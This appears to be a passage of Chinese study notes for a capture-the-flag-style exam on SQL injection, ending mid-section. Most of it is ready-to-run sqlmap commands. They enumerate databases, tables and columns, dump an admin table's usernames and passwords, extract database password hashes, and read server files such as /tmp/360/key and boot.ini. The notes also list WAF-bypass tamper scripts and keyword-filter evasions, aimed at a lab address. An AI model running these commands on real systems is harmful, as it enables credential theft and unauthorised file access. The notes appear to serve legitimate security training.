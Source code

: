 1.判断库名：article

sqlmap.py -u "注入点" --dbs

2.判断表名

sqlmap.py -u "注入点" -D article --tables

3.判断列名

sqlmap.py -u "注入点" -D article -T admin --columns



4.判断值：

sqlmap.py -u "注入点" -D article -T admin -C username,password --dump

5.判断连接数据库用户名和密码

sqlmap.py -u "注入点"  --passwords

navicat:连接数据库

6.考试题：

读文件：/tmp/360/key

sqlmap.py -u "注入点"  --file-read="/tmp/360/key"

7:waf:web app fw 穿透：软件，硬件

tamper:space2hash.py,space2plus.py

空格过滤：tab,+,/\*\*/

union:ununionion uni%%%%on

sqlmap.py -u "url" --file-read="/tmp/360/key" --tamper "space2hash.py"



读文件：load\_file\(c:\boot.ini\)

小葵多功能转换工具：c:\boot.ini转换为十六进制：0x633A5C626F6F742E696E69

第一题：sql注入：

要求：/tmp/360/key

用工具:

sqlmap.py -u "http://172.16.12.100:81/vulnerabilities/fu1.php?id=1" --file-read="/tmp/360/key" --tamper "space2hash.py"



C:\Users\Administrator\.sqlmap\output\172.16.12.100\files\

手工判断

1.判断过滤内容：空格and 1=1

过滤：空格，union

绕过：
